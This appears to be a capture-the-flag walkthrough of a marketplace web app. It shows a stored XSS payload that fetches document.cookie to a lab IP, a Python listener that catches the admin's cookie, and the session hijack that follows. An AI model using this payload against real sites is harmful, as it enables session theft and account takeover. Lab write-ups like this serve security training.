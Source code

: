 We found three open ports on an Ubuntu linux machine. There is port 22 running OpenSSH, port 80 running nginx and port 32768 running Node.js.

### Web

Let's navigate to the web page on port 80.

![](1.png)

Here we have a market place where people can sell there stuff. Let's sign up and login.

![](2.png)

It seems that we also can add our own listing.

![](3.png)

The title and the description are displayed. Let's check for XSS vulnerabilities.

![](4.png)

After submitting the query, we successfully get the alert.

![](5.png)

One interesting thing we see is that we can report a listing to the admins, and the sites uses cookies.

![](6.png)

We can use that to our advantage and try steal the admin's cookie.

Let's create a new listing and put the following script in the description.

```js
<script>fetch('http:10.10.10.10/'+document.cookie)</script> xss
```

>Change the ip address to your tun0 ip.

![](7.png)

Now go the the terminal and setup an http web server to catch the cookie with the following command:

```bash
python3 -m http.server 80
```

Now submit the query, and then report it to the admins.

![](8.png)

Great! We got the admin's cookie. Now change the current cookie to the one we just got and refresh the page.

![](9.png)
